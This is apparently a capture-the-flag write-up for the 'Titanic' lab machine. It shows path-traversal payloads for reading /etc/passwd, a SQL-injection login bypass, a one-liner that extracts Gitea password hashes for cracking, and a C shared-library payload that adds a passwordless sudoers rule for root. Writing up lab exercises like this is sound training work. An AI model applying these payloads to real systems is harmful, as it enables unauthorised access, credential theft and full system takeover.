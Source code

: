 # 🚢Titanic

## 🧠Summary 
> Using basics of web enumeration to find the vulnerabale subdomain which leads access to the
> machine using SSH(secure shell). In the machine found a vulnerable file identify_image.sh, So introduced a
> C program for gaining root access
  ```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'developer ALL=(ALL) NOPASSWD:ALL' | sudo tee -a /etc/sudoers");
}
```
## 🔍Step 1 (Nmap scan)
- Did an nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v {ip address}
  ```
- Note: Using the sV flag is for version detection which is always useful because can search in the web for past vulnareblity of that version
- The result of the nmap scan is in this link 👉 [nmap_scan_result](./nmap_scan.txt)
## 💡Step 2 (Web analysis)
- Before starting analysis updated the etc/hosts
  ```bash
  sudo echo "{ip address}    titanic.htb" > etc/hosts
  ```
- Registred in the site to see output and found out that you can directly download things from the site
## 💻Step 3 (Enumeration)
- Used a custom made python script and wordlist that aling mostly to tourism and booking site
- custom python script 👉 [enumeration.py](./custom_tool/enumeration.py)
- Found out that 2 addtional webpage are present that is the book and download
- Did some manual enumeration using the earlier data and found out that /download?ticket= is an endpoint
- For further analysis used burp suite and dirsearch and conformed that there was subdomain called dev.titanic.htb (☠️note: unfortuanately couldn't capture the records of burp suite)
- While doing the analysis using burp suite in the newly found endpoint used some payloads like ../../../etc/passwd and found a file
- the file got from the payload 👉 [etc/passwd.txt](./ticket.txt)
- Notice that there is a user called as developer
- To get the user flag we use a payload ../../../home/developer/user.txt to obtain the flag
- In the dev.titanic.htb subdomian we found the application used is gitea to upload 2 git repoaitory
## 📖Step 4 (Info gathering)
- I entered gitea using the username developer we found and then tried to login but no password
    - tried:
    >  1) guess some random password (failed).
    >  2) Did some simple sql injection using the payload developer'# (success)
- Then analysed the git hub repose and found the path way to the database
- Then downloaded the database using the endpoint download?ticket=
- The obtained database 👉 [database](./developer_db.db)
## 🔐Step 5 (Brute-forcing)
- Using the bash command
  ```bash
  sqlite3 {name_of_database} "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee hashes.txt
  ```
- The above shown output will be saved to an hashes.txt file 👉 [hashes.txt](./hashes.txt)
- As we analyze the hash found out that this is a pkbdf2 hash with salt and has undergone 50000 iteration, so i wrote a custom python program and used rockyou.txt
- custom python program 👉 [hash_decode.py](./custom_tool/hash_decode.py)
## Step 6 (Foothold)
- Using the username developer and the cracked password we login to the machine using SSH
  ```bash
  ssh developer@titanic.htb
  ```
- After that searched through the files to find identify_images.sh which is using imageMagick to identify picture and write it in log files quickly
- So in the directory /opt/app/static/assets/images/ I introduced a new file exploit.c and wrote the above c code
- I compiled and run the code as
  ```bash
  gcc -fPIC -shared -o ./libxcb.so.1 a.c -nostartfiles
  ```
- Then executed sudo su and finally I became root
- I got the root flag in the root directory using
  ```bash
  cat root/root.txt
  ```
  
